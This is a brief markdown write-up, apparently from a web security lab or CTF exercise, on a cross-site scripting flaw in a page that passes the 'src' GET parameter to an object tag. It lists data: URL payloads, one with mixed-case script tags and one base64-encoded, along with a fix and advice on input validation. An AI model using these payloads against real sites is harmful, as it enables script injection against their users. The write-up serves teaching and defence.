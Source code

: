 # Cross-Site Scripting (Object)

The `src` GET parameter is used to display content with an `object` tag, thus, we can modify `src` to execute code on our target computer through a simple link `a`.

## How-To

1. Go to `/?page=media&src=nsa`
1. Replace the `src` in url with a page path `/` name

	```
	# Will display Home page
	src=/
	```

1. Replace the `src` in url with an inline script

	```
	# Code will be executed
	data:text/html,<sCrIpt>alert('hi');</scriPt>
	```

1. Replace the `src` in url with a base64 encoded script

	```
	data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGkiKTwvc2NyaXB0Pg==
	```

## Fix

- Use `img` tag instead of `object`

	```html
	<img src='path/to/image.jpg' alt='NSA Logo' />
	```

## Details

- GET parameter are easily modifiable by users, so treat them like any user's input, they are NOT safe, sanitize / validate them !

## Resources

- MDN : [<object>](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)
- Wiki : [DataURL](https://en.wikipedia.org/wiki/Data_URI_scheme)
- MDN : [DataURL](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)
- Wiki : [Base64](https://en.wikipedia.org/wiki/Base64)
- Encode : [Base64](https://www.base64decode.org/)
